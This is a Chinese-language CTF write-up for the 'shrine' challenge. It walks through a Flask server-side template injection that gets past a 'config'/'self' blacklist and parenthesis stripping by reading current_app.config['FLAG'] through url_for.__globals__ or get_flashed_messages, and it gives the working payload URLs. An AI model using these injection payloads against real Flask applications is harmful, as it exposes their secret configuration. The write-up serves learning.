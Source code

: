 # shrine
## 题目描述
暂无
## 思路
http://220.249.52.133:53001  
点开题目链接，是一段代码，我们直接查看网页源码，发现是良好的格式：  
```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')

@app.route('/')
def index():
    return open(__file__).read()

@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```
审计一下代码，发现有效路径在 /shrine/ 文件夹下，看到后面有双大括号，因此在这个路径下，试一下模板注入：  
http://220.249.52.133:53001/shrine/{{7*7}}  
发现可以执行，因此，漏洞利用点找到了，我们继续审计代码。  
首先发现注册了一个名为 FLAG 的 config，大胆猜测这个起码和最终的 flag 有关。接着看到有黑名单，且黑名单中有两个关键词：config 和 self，不仅如此，还把黑名单的东西遍历并设为空。如果没有这层过滤，我们可以直接用 /shrine/{{config}} 查看所有 app.config 的内容。此外，本段代码还把小括号 ( 和 ) 替换为空字符。  
***
一时手足无措不知道该咋整……  
去网上找了找“资料”，发现了两个函数，url_for 和 get_flashed_messages  
***
使用 url_for.__globals__ 看看都有些啥：  
http://220.249.52.133:53001/shrine/{{ url_for.__globals__ }}  
![avatar](./picture/shrine_1.png)  
查找了几个可能的关键字，发现只有这个比较贴切，意味着是当前的 app，尝试一下，访问当前 app 下名为 FLAG 的 config：  
http://220.249.52.133:53001/shrine/{{ url_for.__globals__['current_app'].config['FLAG'] }}  
![avatar](./picture/shrine_2.png)  
得到 flag。  

使用 get_flashed_messages 函数也是同理，把以上 url 中的 url_for 替换为 get_flashed_messages 即可。  

## 相关知识
1. config 对象  
config 对象就是 Flask 的 config 对象，也就是 app.config 对象。  
2. request 对象  
就是 Flask 中表示当前请求的 request 对象，request对象中保存了一次HTTP请求的一切信息。  
request 的常用属性如下：  
![avatar](./picture/shrine_3.png)  
3. url_for 方法  
url_for() 会返回视图函数对应的URL。如果定义的视图函数是带有参数的，则可以将这些参数作为命名参数传入。  
4. get_flashed_messages 方法  
返回之前在Flask中通过 flash() 传入的闪现信息列表。把字符串对象表示的消息加入到一个消息队列中，然后通过调用 get_flashed_messages() 方法取出(闪现信息只能取出一次，取出后闪现信息会被清空)。
